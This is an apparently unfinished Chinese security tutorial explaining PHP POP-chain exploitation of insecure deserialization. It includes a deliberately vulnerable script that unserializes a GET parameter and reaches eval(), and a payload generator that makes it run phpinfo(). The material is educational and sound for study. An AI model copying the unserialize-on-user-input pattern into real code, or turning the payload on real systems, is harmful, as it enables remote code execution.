 ```yaml
---
title: POP链
createTime: 2025/02/04 17:03:22
permalink: /security/POP-chain/
---
```


## 概念

`POP`（Property-Oriented Programing，面向属性编程）用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集
POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：进行反序列化的数据能够被用户输入所控制。


## 漏洞利用

::: code-tabs

@tab test.php

```php
<?php
class lemon {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new normal();
    }

    function __destruct() {
        $this->ClassObj->action();
    }
}

class normal {
    function action() {
        echo "hello";
    }
}

class evil {
    private $data;
    function action() {
        eval($this->data);
    }
}

unserialize($_GET['d']);
?>
```

@tab crack.php

```php
<?php 
class lemon {
    protected $ClassObj;
    function __construct() {
        $this->ClassObj = new evil();
    }

}
class evil {
    private $data="phpinfo();";
}
$a=new lemon();
echo urlencode(serialize($a));
?> 
```

:::



未完待续...